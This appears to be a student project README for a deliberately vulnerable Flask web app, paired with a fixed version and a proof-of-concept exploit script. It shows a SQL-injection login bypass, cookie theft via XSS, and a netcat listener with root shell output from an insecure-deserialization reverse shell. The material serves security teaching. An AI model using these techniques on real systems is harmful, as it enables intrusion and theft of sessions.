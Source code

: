 # Project 1 - Vulnerabilities

### Description

This assignment will focus on the existence of vulnerabilities in software projects, their exploration and avoidance. The objective is for students to develop a small application, with a simple and clear purpose. An online shop, a forum, a wiki, or a RESTFull service are good examples of what is expected. The application should provide its function without errors, without inconsistent behaviour, and without pages/sections/fragments that do not fit the purpose of the application.

However, this application should also suffer from a specific set of weaknesses, which are not obvious to the casual user, but may be used to compromise the application, or the system.

Students should provide a both a flawed and correct version of the application, together with a report demonstrating how those vulnerabilities are explored and their impact. The project must include vulnerabilities associated with [CWE-79](https://cwe.mitre.org/data/definitions/79.html) and [CWE-89](https://cwe.mitre.org/data/definitions/89.html). An additional set of weaknesses must be considered, so that the total number of vulnerabilities should be of at least 4.

For all vulnerabilities:

- Vulnerabilities should be distinct (different CWEs);
- The CWE must be identified;
- The implementation must follow the logic and purpose of the application;
- Students should be able to demonstrate the vulnerability;

# Vulnerable flask based web application

Project with the goal to make one web application with two versions:

- app, web application with security issues
- appsec, web application with the security issues fixed

## Vulnerabilities present

- Plaintext Passwords
- SQLi
- Forced Browsing
- XSS
- Insecure deserialization

## Usage

### To run the web application

1. Go to the desired web application directory
2. Run the following command:
    
    ```bash
    docker-compose up --build
    ```
    
3. go to the following [url](http://localhost/) 

### To run the POC (poorsploit.py)

1. Go to the project directory
2. Run the following command
    
    ```bash
    python3 poorsploit.py
    ```
    
3. Choose the exploit we want to exploit with the POC (poorsploit.py)
    
    ```bash
    python3 poorsploit.py
     ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
    ||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
    ||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
    |/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)
    
    [?] Choose one of the options:
           1 - SQli
           2 - Insecure Deserialization
           3 - XSS
           4 - Forced Browsing
           5 - quit
    > 
    ```
    

### To run go into the database

1. Check in witch container id the mysql db is running by executing the below command
    
    ```bash
    docker ps
    ```
    
2. Run the following command to get access to the mysql db
    
    ```bash
    docker exec -it <container−id> mysql -h localhost -P 3306 -u root -proot
    ```
    

## Exploitation

### SQLi

Manually:

```bash
username: <username of user we know exists>' -- \\
password: <anything>
```

Automatically:

```bash
> python3 poorsploit.py
 ____ ____ ____ ____ ____ ____ ____ ____ ____ ____ _________ 
||P |||o |||o |||r |||s |||p |||l |||o |||i |||t |||       ||
||__|||__|||__|||__|||__|||__|||__|||__|||__|||__|||_______||
|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/__\|/_______\| (Metasploit at home™️)

[?] Choose one of the options:
       1 - SQli
       2 - Insecure Deserialization
       3 - XSS
       4 - Forced Browsing
       5 - quit
> 1
[!] Username is : root
[!] Password is: root
```

### Forced Browsing

1. Log in
2. Run the poorsploit.py to check if there are any interesting directories on the robots.txt file
3. Check out those directories mentioned

### XSS

1. Log in to post something
2. Run the poorsploit.py to get the payload we are going to post on the website
3. Just wait and see the poorsploit server output with the stolen cookies (it will repeat some)
4. Close the server when done with ctrl+c

### Insecure deserialization

1. Log in as an user to get a cookie
2. On our machine run a net cat listener for our reverse shell:
    
    ```bash
    nc -lnvp 9999
    ```
    
3. Run the poorsploit.py to get a cookie that enables us to run a reverse shell on the target machine
4. Change the cookie we have on the browser for the one we got from poorsploit.py and refresh the page
5. We get a root shell on our listener terminal like the following:
    
    ```bash
    > nc -lnvp 9999
    Connection from 172.20.0.4:49470
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@aca189c0881c:/app#
    ```
    

## Authors

Rodrigo Lima, nmec: 98475 <br>
Camila Fonseca, nmec: 97880 <br>
Patrícia Dias, nmec: 98546 <br>
Isadora Loredo, nmec: 91322 <br>
